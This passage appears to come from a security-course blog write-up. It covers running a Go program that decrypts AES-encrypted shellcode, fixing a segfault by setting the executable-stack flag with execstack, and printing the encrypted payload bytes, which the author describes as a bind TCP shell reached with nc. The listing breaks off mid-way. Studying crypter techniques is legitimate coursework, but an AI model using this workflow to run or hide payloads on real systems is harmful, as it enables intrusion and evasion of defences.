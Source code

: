         /usr/local/go/src/runtime/proc.go:203 +0x1fd fp=0xa42a7f0 sp=0xa42a7c8 pc=0x807608d
runtime.goexit()
        /usr/local/go/src/runtime/asm_386.s:1337 +0x1 fp=0xa42a7f4 sp=0xa42a7f0 pc=0x809ca01
{% endhighlight %}
		
But when execute the program the error triggered.

```
fatal error: unexpected signal during runtime execution
[signal SIGSEGV: segmentation violation code=0x2 addr=0xa4721f0 pc=0xa4721f0]
```

To fix this error, we need to run [`execstack`](https://linux.die.net/man/8/execstack) is a program which sets, clears, or queries executable stack flag of ELF binaries and shared libraries. Linux has in the past allowed execution of instructions on the stack and there are lots of binaries and shared libraries assuming this behaviour. To install in Ubuntu:

```
$ sudo apt-get install prelink
```

From the `execstack` command help, we need to use option `-s`, to set executable stack flag bit on the binary.

```
kecebong@ubuntu:~/slae32/assigment/go$ execstack --help
Usage: execstack [OPTION...]
execstack -- program to query or set executable stack flag

  -c, --clear-execstack      Clear executable stack flag bit
  -q, --query                Query executable stack flag bit
  -s, --set-execstack        Set executable stack flag bit
  -?, --help                 Give this help list
      --usage                Give a short usage message
  -V, --version              Print program version

Report bugs to <jakub@redhat.com>.
```

After set the executable stack flag bit on the `aes_dec` binary, we can see the shellcode is successfully decrypted and run. Because the original shellcode is Shell Bind TCP from Assigment #1, we can verify after the decrypt program run, it's listening to port `8443` and we can verify it by connecting to the port `8443` by using `nc` and we get shell. In below output i've used `tmux` with 2 split panes.

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/go$ go build aes_dec.go

kecebong@ubuntu:~/slae32/assigment/go$ execstack -s ./aes_dec

kecebong@ubuntu:~/slae32/assigment/go$ /tmp/aes_dec deadbeefdeafface
[*] Encrypted shellcode:
0x31,0x37,0x64,0x63,0x36,0x35,0x65,0x35,0x37,0x62,0x63,0x66,0x32,0x33,0x65,0x65,0x66,0x61,0x62,0x32,0x62,0x35,
0x38,0x30,0x38,0x38,0x36,0x62,0x34,0x37,0x64,0x35,0x34,0x36,0x33,0x63,0x62,0x63,0x65,0x38,0x31,0x61,0x64,0x30,
0x33,0x39,0x61,0x63,0x34,0x31,0x31,0x66,0x61,0x38,0x66,0x61,0x66,0x34,0x63,0x35,0x62,0x34,0x39,0x39,0x31,0x66,
0x39,0x64,0x64,0x61,0x39,0x31,0x34,0x32,0x31,0x62,0x62,0x31,0x37,0x61,0x38,0x65,0x35,0x32,0x35,0x30,0x63,0x32,
0x66,0x36,0x63,0x63,0x66,0x33,0x65,0x66,0x62,0x35,0x62,0x32,0x31,0x38,0x31,0x61,0x32,0x30,0x36,0x36,0x32,0x62,
0x37,0x37,0x64,0x35,0x36,0x33,0x30,0x38,0x30,0x35,0x65,0x65,0x62,0x38,0x64,0x65,0x34,0x64,0x64,0x35,0x35,0x61,
0x37,0x65,0x64,0x37,0x36,0x38,0x32,0x34,0x36,0x31,0x30,0x38,0x34,0x34,0x34,0x64,0x30,0x32,0x32,0x63,0x64,0x61,
0x35,0x30,0x62,0x34,0x35,0x35,0x30,0x31,0x61,0x39,0x33,0x65,0x39,0x39,0x64,0x38,0x66,0x61,0x33,0x39,0x61,0x36,